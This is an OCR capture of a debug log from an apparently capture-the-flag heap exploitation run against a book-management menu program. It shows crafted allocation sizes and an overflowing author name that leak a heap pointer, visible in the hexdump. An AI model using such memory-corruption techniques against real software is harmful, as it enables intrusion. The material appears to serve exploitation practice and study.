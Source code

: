 ```powershell
    '\n'
    'Enter book name size: '
[DEBUG] Sent 0x3 bytes:
    '10\n'
[DEBUG] Received 0x20 bytes:
    'Enter book name (Max 32 chars): '
[DEBUG] Sent 0xb bytes:
    'book1_name\n'
[DEBUG] Received 0x1e bytes:
    '\n'
    'Enter book description size: '
[DEBUG] Sent 0x4 bytes:
    '200\n'
[DEBUG] Received 0x18 bytes:
    'Enter book description: '
[DEBUG] Sent 0xb bytes:
    'book1_desc\n'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x86 bytes:
    '\n'
    '1. Create a book\n'
    '2. Delete a book\n'
    '3. Edit a book\n'
    '4. Print book detail\n'
    '5. Change current author name\n'
    '6. Exit\n'
    '> \n'
    'Enter book name size: '
[DEBUG] Sent 0x7 bytes:
    '135168\n'
[DEBUG] Received 0x20 bytes:
    'Enter book name (Max 32 chars): '
[DEBUG] Sent 0xb bytes:
    'book2_name\n'
[DEBUG] Received 0x1e bytes:
    '\n'
    'Enter book description size: '
[DEBUG] Sent 0x7 bytes:
    '135168\n'
[DEBUG] Received 0x18 bytes:
    'Enter book description: '
[DEBUG] Sent 0xb bytes:
    'book2_desc\n'
[DEBUG] Received 0x6f bytes:
    '\n'
    '1. Create a book\n'
    '2. Delete a book\n'
    '3. Edit a book\n'
    '4. Print book detail\n'
    '5. Change current author name\n'
    '6. Exit\n'
    '> '
[*] Leaking book_1's address...
[DEBUG] Sent 0x2 bytes:
    '4\n'
[DEBUG] Received 0x12b bytes:
    00000000  49 44 3a 20  31 0a 4e 61  6d 65 3a 20  62 6f 6f 6b  │ID: │1·Na│me: │book│
    00000010  31 5f 6e 61  6d 65 0a 44  65 73 63 72  69 70 74 69  │1_na│me·D│escr│ipti│
    00000020  6f 6e 3a 20  62 6f 6f 6b  31 5f 64 65  73 63 0a 41  │on: │book│1_de│sc·A│
    00000030  75 74 68 6f  72 3a 20 61  61 61 61 61  61 61 61 61  │utho│r: a│aaaa│aaaa│
    00000040  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    00000050  61 61 61 61  61 61 61 60  83 75 55 55  55 0a 49 44  │aaaa│aaa`│·uUU│U·ID│
```